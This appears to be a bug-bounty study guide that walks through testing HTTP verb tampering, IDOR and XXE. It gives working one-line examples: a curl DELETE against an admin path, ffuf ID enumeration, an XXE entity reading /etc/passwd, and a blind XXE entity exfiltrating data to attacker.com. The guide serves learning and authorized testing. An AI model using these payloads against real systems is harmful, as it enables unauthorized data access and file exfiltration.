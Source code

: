 # Web Attacks

[Relative Cheat Sheet](./web-attacks-cheat.md)

## Step-by-Step Guide for Testing and Exploiting Web Attacks (HTTP Verb Tampering, IDOR, XXE)

### 1. Understand Web Attack Types
   - **Explanation**: Web attacks include HTTP Verb Tampering (bypassing controls via method changes), Insecure Direct Object References (IDOR, accessing unauthorized objects via direct IDs), and XML External Entity (XXE, exploiting XML parsing for file access or SSRF). Each exploits specific misconfigurations.
   - **Why It's Done**: Knowing the attack types guides testing for specific weaknesses, like poor access controls or unsafe XML processing.
   - **Example**: Changing a GET to DELETE to bypass auth, or accessing `/user/123` as `/user/124`.

### 2. Test for HTTP Verb Tampering
   - **Explanation**: Send non-standard HTTP methods (e.g., PUT, DELETE, OPTIONS) to endpoints expecting GET/POST to bypass restrictions.
   - **Why It's Done**: Some apps enforce controls only on common methods, allowing unauthorized actions.
   - **Example**: `curl -X DELETE http://example.com/admin/delete` to delete resources without auth.

### 3. Identify IDOR Points
   - **Explanation**: Look for direct references in URLs, API calls, or AJAX (e.g., `/user/123`, `id=123`) that identify objects like users or files.
   - **Why It's Done**: Modifiable references can lead to unauthorized data access.
   - **Example**: `/profile?id=123` where `id` is a user ID.

### 4. Test IDOR Exploitation
   - **Explanation**: Modify the reference (e.g., change `id=123` to `id=124`) to access another user’s data or resources.
   - **Why It's Done**: Confirms if access controls are missing, allowing data breaches.
   - **Example**: Change `/user/123` to `/user/124` to view another user’s profile.

### 5. Mass Enumerate IDOR
   - **Explanation**: Fuzz IDs or encoded references (e.g., base64, MD5) using tools like ffuf to access multiple objects.
   - **Why It's Done**: Scales the attack to expose more unauthorized data.
   - **Example**: `ffuf -w ids.txt:FUZZ -u http://example.com/user/FUZZ`.

### 6. Test for XXE
   - **Explanation**: Submit XML payloads with external entities (e.g., `<!ENTITY xxe SYSTEM "file:///etc/passwd">`) to inputs processed by XML parsers.
   - **Why It's Done**: XXE can read files, perform SSRF, or cause DoS via entity expansion.
   - **Example**: XML form input with `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`.

### 7. Exploit XXE for Data Exfiltration
   - **Explanation**: Use blind XXE with out-of-band (OOB) exfiltration (`<!ENTITY xxe SYSTEM "http://attacker.com/?data=%file;">`) or base64 filters for code.
   - **Why It's Done**: Extracts data when direct output isn’t available.
   - **Example**: `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` to read source code.

### 8. Chain Attacks
   - **Explanation**: Combine IDOR with APIs, XXE with SSRF, or verb tampering with auth bypass for escalation.
   - **Why It's Done**: Increases impact, like accessing admin data or RCE.
   - **Example**: IDOR to access admin ID, then XXE to read internal files.

### 9. Test Prevention Measures
   - **Explanation**: Check for indirect references (UUIDs), method restrictions, or XML parser disabling external entities.
   - **Why It's Done**: Informs remediation, like using randomized IDs or secure parsing.
   - **Example**: Secure app uses UUIDs instead of sequential IDs.

### 10. Use Tools for Efficiency
   - **Explanation**: Use Burp for verb tampering, ffuf for IDOR fuzzing, or Postman for XML testing.
   - **Why It's Done**: Automates repetitive tasks and scales testing.
   - **Example**: Burp Intruder to fuzz `id` parameters.

This guide, based on PortSwigger Web Security Academy and the provided cheat sheet, equips hunters to test web attacks effectively. Test ethically within scope.
